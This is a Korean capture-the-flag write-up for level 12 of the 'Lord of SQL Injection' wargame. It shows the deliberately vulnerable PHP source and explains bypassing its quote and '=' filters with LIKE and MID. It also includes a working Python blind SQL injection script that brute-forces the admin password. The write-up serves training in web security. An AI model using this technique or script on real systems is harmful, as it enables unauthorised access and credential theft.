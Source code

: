 ## Lord of SQL Injection No. 12- darknight
## 문제 출제 의도
Single quote를 사용하지 않고 SQL 문을 조작 할 수 있는지 확인한다.
## 소스 코드 분석
+ 소스 코드  
Darknight의 소스 코드는 다음과 같다.   
    ~~~   
    <?php 
    include "./config.php"; 
    login_chk(); 
    dbconnect(); 
    if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~"); 
    if(preg_match('/\'/i', $_GET[pw])) exit("HeHe"); 
    if(preg_match('/\'|substr|ascii|=/i', $_GET[no])) exit("HeHe"); 
    $query = "select id from prob_darkknight where id='guest' and pw='{$_GET[pw]}' and no={$_GET[no]}"; 
    echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
    $result = @mysql_fetch_array(mysql_query($query)); 
    if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
    $_GET[pw] = addslashes($_GET[pw]); 
    $query = "select pw from prob_darkknight where id='admin' and pw='{$_GET[pw]}'"; 
    $result = @mysql_fetch_array(mysql_query($query)); 
    if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("darkknight"); 
    highlight_file(__FILE__); 
    ?>
    ~~~
+ 소스 코드 분석
    - Get 방식으로 받은 문자열에 'prob _ . ( )중 하나라도 있다면 "No Hack~_~"이 출력되고 문제 풀이에 실패한다.
    - Get 방식으로 받은 pw값에 '(single quote) 가 있다면 "HeHe"가 출력되고 문제 풀이에 실패한다.
    - Get 방식으로 받은 no값에 'ascii, '(singel quote), substr , =중 하나라고 있다면 "HeHe"가 출력되고 문제 풀이에 실패한다.
    - SQL문을 통해 받은 id 값이 0이 아니라면 "Hello Id"가 출력된다.
    - 문제 풀이에 성공하는 조건은 한 레코드의 id 값이 'admin'이고 pw값이 입력한 pw 값과 같을 떄 즉 id가 'admin'인 회원의 pw값을 알아내야 한다.
## 문제 해결
+ like
    - 대입 연산자를 대체하여 그 자리에 동일하게 like를 삽입하면 '='을 사용하지 않고 SQL문을 조작 가능하다.

+ MID
    ~~~
    return_value = mid ( 추출할문자열, pos, len )
    ~~~
    - substr과 동일한 기능을 하는 함수로 substr 대신 사용하면 SQL문을 조작 가능하다.

+ 코드
    - 따라서 다음과 같은 코드를 작성하면 pw값을 알 수 있다.
    ~~~
    import urllib.request
    from urllib.parse import quote

    key = ""
    for i in range(1, 9):
        for j in range(48, 127):
            url = "http://los.eagle-jump.org/darkknight_f76e2eebfeeeec2b7699a9ae976f574d.php?no="
            data = '1 or id like "admin" and mid(pw,1,{}) like "{}"#'.format(str(i), key + chr(j))
            print(data)
            data = quote(data)
            re = urllib.request.Request(url + data)
            re.add_header("User-agent", "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/62.0.3202.75 Safari/537.36") 
            re.add_header("Cookie", "PHPSESSID=6ckrsnfovcd74972o80ugmksb4")
            res = urllib.request.urlopen(re) 
            if str(res.read()).find("Hello admin") != -1:
                key += chr(j).lower()
                print(key)
                break
    print(key)
    ~~~
    - 이를 실행하면 pw=1c62ba6f가 출력된다
    - 이를 URL뒤에 GET방식으로 입력하면 문제가 해결된다.